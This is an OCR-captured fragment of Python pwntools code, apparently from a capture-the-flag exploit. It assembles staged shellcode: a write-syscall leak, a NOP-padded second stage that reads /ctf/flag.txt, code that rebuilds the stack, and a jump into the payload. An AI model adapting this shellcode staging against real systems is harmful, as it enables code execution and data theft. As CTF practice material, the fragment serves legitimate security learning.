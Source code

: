 ```python
  pop rdi
  mov rsi, rsp
  sub rsi, 0x400
  mov rdx, rax
  push 1 /* (SYS_write) */
  pop rax
  syscall
    """).ljust(80, b"\x90")

    # leaked file name from ls above
    stage2 = asm(shellcraft.amd64.linux.cat("/ctf/flag.txt", fd=1)).ljust(128, b"\x90")
    print(stage2.hex())

    assembly = f"""

    mov rax, rdx

make_stack:

    mov rsp, rdx
    mov rbp, rdx
    mov rdi, rdx
    sub rdi, 0x800
    mov r11, rdx
    add r11, 0x200
    mov r10, 0
    xor rsi, rsi
    call dfs
    add rax, 0x800
    mov rbp, rax
    mov rsp, rax
    """

    # setup stage2
    for i in range(0, len(stage2), 8):
        assembly+=f"""
        mov rbx, {u64(stage2[i:i+8])}
        mov QWORD PTR [rbp+{i}], rbx
        """

    # jump to stage 2
    assembly += """
    mov rdx, 0
    mov rdi, 0
    mov rsi, 0
    jmp rax
    """

# change output "vis" from godbolt to use r11 for tracking
# so pwntools and assemble correctly without relocation error

    assembly += """
to_index:
        mov     rax, rdi
        shr     rax, 31
        ret
dfs:
        cmp     DWORD PTR [rdi], 0
        mov     rax, rdi
        jne     .L15
        push    r12
        lea     r12d, [rsi+1]
        push    rbp
```